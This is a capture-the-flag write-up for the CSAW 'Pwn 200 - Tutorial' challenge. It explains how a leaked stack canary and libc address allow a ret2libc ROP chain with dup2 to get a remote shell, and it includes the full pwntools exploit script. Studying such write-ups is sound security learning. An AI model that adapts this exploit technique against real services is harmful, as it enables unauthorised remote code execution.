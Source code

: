 # Pwn 200 - Tutorial

> Writeup by f0xtr0t (Jay Bosamiya)

This was a pretty fun challenge, solved by uchiha (Pankaj Kataria) and myself (f0xtr0t) during the contest.

Executing the [given executable](tutorial) with a numeric parameter sets up a server that listens on that TCP port, with the privileges of the user `tutorial`. I edited the fixed string to `jay` which is my user on my system, to make the [modified file](tutorial_mod), which is identical to the given file in all other respects.

Thereafter, we realized that there was a memory leak (in option `2`), which reveals the stack canary which is constant accross runs. Option `1` reveals a pointer with which we can compute libc base address.

Using these two, we realized that we would be able to do a `system('/bin/sh')` using a ret2libc. We wrote up quick code to be able to do this, and it seemed to work on our system, but not on the challenge server (though we were accounting for the libc difference).

After a while, we realized that though it was "working" on our system, the shell was being dropped on the server process, and not connected to the client. Doh! We needed to do a `dup2` to redirect stdin and stdout accross the network.

Some quick reversing told us that the file descriptor would be constant accross runs, and will also be a small number constant. We thus tried different values for that fd, until 4 worked, and we had a shell. :)

## [Exploit code](expl.py)

    from pwn import *
    
    local = False
    
    context(os = 'linux',
            arch = 'amd64',
            log_level = 'debug')
    
    bin=ELF('./tutorial_mod')
    
    if local:
        libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
    else:
        libc=ELF('./libc-2.19.so')
    
    sysOffset = libc.symbols['system']
    putsOffset = libc.symbols['puts']
    
    if local:
        import sys
        conn = remote('localhost', sys.argv[1])
    else:
        conn = remote('pwn.chal.csaw.io', 8002)
    
    conn.recvuntil('>')
    conn.sendline('1')
    putsAddr = int(conn.recvuntil('>').split()[0].split(':')[1],16)
    libcBaseAddr = putsAddr + 1280 - putsOffset
    
    sysAddr = libcBaseAddr+sysOffset
    binShAddr = libcBaseAddr+libc.offset_to_vaddr(list(libc.search('/bin/sh'))[0])
    
    conn.sendline('2')
    conn.recvuntil('>')
    conn.sendline('temp')
    payload = conn.recvuntil('>')[:-39]
    
    rop = ROP(bin)
    
    payload += 'aaaa'
    
    their_fd = 4
    
    rop.raw(rop.find_gadget(['pop rdi', 'ret']).address)
    rop.raw(their_fd)
    rop.raw(rop.find_gadget(['pop rsi', 'pop r15', 'ret']).address)
    rop.raw(0)
    rop.raw(0xdeadbeef)
    rop.raw(libc.symbols['dup2'] + libcBaseAddr)
    
    rop.raw(rop.find_gadget(['pop rdi', 'ret']).address)
    rop.raw(their_fd)
    rop.raw(rop.find_gadget(['pop rsi', 'pop r15', 'ret']).address)
    rop.raw(1)
    rop.raw(0xdeadbeef)
    rop.raw(libc.symbols['dup2'] + libcBaseAddr)
    
    rop.raw(rop.find_gadget(['pop rdi', 'ret']).address)
    rop.raw(binShAddr)
    rop.raw(sysAddr)
    payload += rop.chain()
    
    conn.sendline('2')
    conn.recvuntil('>')
    conn.sendline(payload)
    
    conn.interactive()
    conn.close()
